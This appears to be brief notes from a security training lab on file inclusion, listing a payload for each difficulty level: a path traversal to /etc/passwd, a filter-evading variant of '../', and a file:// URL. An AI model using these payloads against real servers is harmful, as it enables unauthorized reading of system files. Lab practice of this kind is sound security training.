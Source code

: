 # File include
## Low Level
- Used ../../../../etc/passwd

## Medium Level
- We Used ..././..././ insted of ../../
- ../ is blacklisted :V but it's ok

## Hight Level
- file:///etc/passwd
